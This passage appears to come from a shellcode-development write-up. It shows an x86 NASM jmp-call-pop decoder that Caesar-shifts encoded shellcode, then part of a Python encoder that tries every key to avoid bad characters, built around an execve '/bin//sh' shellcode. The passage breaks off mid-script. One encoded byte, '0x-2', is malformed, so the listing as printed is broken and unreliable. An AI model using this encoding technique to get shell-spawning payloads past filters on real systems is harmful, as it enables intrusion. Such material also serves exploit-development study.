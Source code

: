 Then by simply editing *XOR-Decoder.nasm* example file, a decoder can be written:
  
```ASM
global _start			

section .text
_start:
	jmp short call_decoder

decoder:
	pop esi
	xor ecx, ecx
	mov cl, 25

decode:
	add byte [esi], 13
	inc esi
	loop decode
	jmp short Shellcode

call_decoder:
	call decoder
	Shellcode: db 0x24,0xb3,0x43,0x5b,0x22,0x22,0x66,0x5b,0x5b,0x22,0x55,0x5c,0x61,0x7c,0xd6,0x43,0x7c,0xd5,0x46,0x7c,0xd4,0xa3,0x-2,0xc0,0x73
 ```
 ## Cesar encoder/decoder script for avoiding forbiden chars
 
Next step will be to try every possible keys in order to find a encoded shellcode without forbiden chars. Script must handle the char use by the ASM decoder. The following Python 3 script took a shellcode and badchars and return, if possible an encoded shellcode with the decoder.

The script also check if the forbiden chars are present in the decoder stub.

```python
 #!/usr/bin/python3
 #Python Cesar Encoder 

import sys

shellcode_decoder = "global _start\n\
\n\
section .text\n\
_start:\n\
	jmp short call_decoder\n\
\n\
decoder:\n\
	pop esi\n\
	xor ecx, ecx\n\
	mov cl, %SIZE%\n\
\n\
decode:\n\
	add byte [esi], %CESAR%\n\
	inc esi\n\
	loop decode\n\
	jmp short Shellcode\n\
\n\
call_decoder:\n\
	call decoder\n\
	Shellcode: db %ENCODED%"

badchars = [0x00]
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

```